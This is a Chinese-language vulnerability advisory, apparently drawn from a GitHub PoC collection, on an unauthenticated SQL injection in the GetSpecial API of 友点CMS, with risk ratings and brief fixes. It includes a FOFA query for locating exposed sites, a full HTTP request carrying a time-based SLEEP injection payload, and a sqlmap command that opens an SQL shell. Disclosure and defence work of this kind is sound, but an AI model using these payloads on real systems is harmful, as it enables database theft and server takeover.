


# 关于友点CMS GetSpecial SQL注入漏洞预警

# 漏洞描述

友点CMS建站系统GetSpecial 接口处存在SQL注入漏洞，未经身份认证的攻击者可以利用该漏洞获取系统数据库敏感信息，深入利用可获取服务器权限。

# 影响范围

友点CMS

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="友点建站-CMS"

POC/EXP：

GET /index.php/api/GetSpecial?debug=1&ChannelID=1&IdList=1,1%29%20and%20%28SELECT%20%2A%20FROM%20%28SELECT%28SLEEP%283%29%29%29A HTTP/1.1
Host: 127.0.01
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bdm4gd5e5vdeog6pjk6md2m3c6
Connection: close

sqlmap验证

sqlmap.py -u "http://127.0.0.1/index.php/api/GetSpecial?debug=1&ChannelID=1&IdList=1,1*" --sql-shell

# 修复方案

**官方修复：**

关闭互联网暴露面设置接口访问控制。

对用户提交数据信息严格把关，多次筛选过滤。

对用户数据内容进行加密，采用SQL语句预编译和绑定变量。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
